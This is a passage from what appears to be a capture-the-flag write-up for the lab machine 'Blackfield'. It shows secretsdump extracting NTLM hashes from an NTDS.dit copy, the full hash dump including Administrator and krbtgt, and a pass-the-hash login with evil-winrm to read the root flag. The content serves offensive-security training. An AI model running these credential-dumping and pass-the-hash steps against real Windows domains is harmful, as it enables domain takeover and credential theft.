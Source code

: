 ```shell
**Evil-WinRM** PS C:\temp> download system
Info: Downloading C:\temp\system to system

Info: Download successful!

```
Now that we have ntds.dit file and the system file let's use secrestsdump.py to get the Administrator NTLM hash.
```shell
sid@kali:~$ python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -ntds sid.dit -system system -hashes lmhash:nthash LOCAL -output admin-hash
Impacket v0.9.21 - Copyright 2020 SecureAuth Corporation

[] Target system bootKey: 0x73d83e56de8961ca9f243e1a49638393
[] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[] Searching for pekList, be patient
[] PEK # 0 found and decrypted: 35640a3fd5111b93cc50e3b4e255ff8c
[] Reading and decrypting hashes from sid.dit 
Administrator:500:aad3b435b51404eeaad3b435b51404ee:184fb5e5178480be64824d4cd53b99ee:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DC01$:1000:aad3b435b51404eeaad3b435b51404ee:9e3d10cc537937888adcc0d918813a24:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:d3c02561bba6ee4ad6cfd024ec8fda5d:::
audit2020:1103:aad3b435b51404eeaad3b435b51404ee:600a406c2c1f2062eb9bb227bad654aa:::
support:1104:aad3b435b51404eeaad3b435b51404ee:cead107bf11ebc28b3e6e90cde6de212:::
BLACKFIELD.local\BLACKFIELD764430:1105:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD538365:1106:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD189208:1107:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD404458:1108:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD706381:1109:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD937395:1110:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD553715:1111:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD840481:1112:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD622501:1113:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD787464:1114:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD163183:1115:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD869335:1116:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD319016:1117:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
```
We can now login as Administrator.<br>
```shell
 sid@kali:~$ evil-winrm -i 10.10.10.192 -u Administrator -H 184fb5e5178480be64824d4cd53b99ee
 Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

**Evil-WinRM** PS C:\Users\Administrator\Documents> whoami
blackfield\administrator
**Evil-WinRM** PS C:\Users\Administrator\Documents> cd ../Desktop
**Evil-WinRM** PS C:\Users\Administrator\Desktop> type root.txt
4375a629c7c67c8e29db269060c955cb
**Evil-WinRM** PS C:\Users\Administrator\Desktop>
```